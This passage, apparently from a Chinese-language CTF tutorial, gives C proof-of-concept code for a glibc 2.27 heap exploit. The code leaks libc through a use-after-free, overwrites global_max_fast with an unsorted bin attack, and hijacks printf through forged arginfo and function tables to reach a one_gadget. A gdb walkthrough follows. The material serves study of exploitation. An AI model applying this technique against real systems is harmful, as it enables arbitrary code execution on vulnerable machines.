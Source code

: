 ```

  /* leak libc */
  a[0] = malloc(0x500); /* UAF chunk */
  a[1] = malloc(offset2size(PRINTF_FUNCTABLE - MAIN_ARENA));
  a[2] = malloc(offset2size(PRINTF_ARGINFO - MAIN_ARENA));
  a[3] = malloc(0x500); /* avoid consolidation */
  free(a[0]);
  libc_base = *(unsigned long*)a[0] - MAIN_ARENA - MAIN_ARENA_DELTA;
  printf("libc @ 0x%lxn", libc_base);

  /* prepare fake printf arginfo table */
  *(unsigned long*)(a[2] + ('X' - 2) * 8) = libc_base + ONE_GADGET;
  //*(unsigned long*)(a[1] + ('X' - 2) * 8) = libc_base + ONE_GADGET;
    //now __printf_arginfo_table['X'] = one_gadget;

  /* unsorted bin attack */
  *(unsigned long*)(a[0] + 8) = libc_base + GLOBAL_MAX_FAST - 0x10;
  a[0] = malloc(0x500); /* overwrite global_max_fast */

  /* overwrite __printf_arginfo_table and __printf_function_table */
  free(a[1]);// __printf_function_table =&gt; a heap_addr which is not NULL
  free(a[2]);//__printf_arginfo_table =&gt; one_gadget

  /* ignite! */
  printf("%X", 0);

  return 0;
`}`
```



## 动态分析

glibc的调试我们用的比较多了，在涉及到库函数的时候最好结合源码进行调试，在[glibc下载](https://ftp.gnu.org/gnu/glibc/glibc-2.27.tar.gz)这里下载源码，解压之后使用`directory`添加源码目录

```
b* 0x400774
directory ~/Desktop/CTF/glibc-2.27/stdio-common
r
parseheap
```

在printf下断点，可以看到此时`__printf_arginfo_table`伪造完成，我们使用`rwatch *0x60be50`下内存断点，继续运行。

[![](https://i.loli.net/2020/04/02/4WX2pHV9CGkv1BP.png)](https://i.loli.net/2020/04/02/4WX2pHV9CGkv1BP.png)

[![](https://i.loli.net/2020/04/02/YWN95GmfqTxbDko.png)](https://i.loli.net/2020/04/02/YWN95GmfqTxbDko.png)

可以看到运行到了`__parse_one_specmb`函数，再跟进两步，发现最终调用了`rax`寄存器里的`one_gadget`
